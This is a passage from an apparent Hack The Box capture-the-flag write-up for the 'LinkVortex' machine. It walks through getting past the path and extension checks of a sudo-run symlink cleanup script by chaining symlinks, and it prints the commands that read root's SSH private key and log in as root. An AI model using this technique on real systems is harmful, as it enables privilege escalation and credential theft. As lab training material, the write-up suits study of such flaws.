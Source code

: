 ```
    13    exit 2
    14  fi
    15
    16  if /usr/bin/sudo /usr/bin/test -L $LINK;then
    17    LINK_NAME=$(/usr/bin/basename $LINK)
    18    LINK_TARGET=$(/usr/bin/readlink $LINK)
    19    if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    20      /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    21      /usr/bin/unlink $LINK
    22    else
    23      /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    24      /usr/bin/mv $LINK $QUAR_DIR/
    25      if $CHECK_CONTENT;then
    26        /usr/bin/echo "Content:"
    27        /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    28      fi
    29    fi
    30  fi
```

This some kind of symlink clean up script, which accepts only `.png` files that are links. Those links can not target files contaning in it's path `etc` or `root`. Such links will be moved to `/var/quarantined` and if `CHECK_CONTENT` environment variable is set, content of link will be printed with `cat`. To grab `/etc/shadow` or `/root/.ssh/id_rsa` we would need to bypass those checks:
- 11 `if ! [[ "$LINK" =~ \.png$ ]]; then`
- 19 `if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then`
 
To do so, we could simply use indirect symlinks, e.g
```
/home/bob/id_rsa.png -> /home/bob/id_rsa.key -> /root/.ssh/id_rsa
```

```
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa /home/bob/id_rsa.key && \
ln -s /home/bob/id_rsa.key /home/bob/id_rsa.png && \
CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/id_rsa.png
Link found [ /home/bob/id_rsa.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
<SNIP>
-----END OPENSSH PRIVATE KEY-----
```

We were able to steal `root` private key! Let's use it to gain `root` access over SSH and grab root flag and we're done here.
```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ cat <<EOF> id_rsa && \
chmod 600 id_rsa && \
ssh root@linkvortex.htb -i id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
<SNIP>
-----END OPENSSH PRIVATE KEY-----
EOF
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```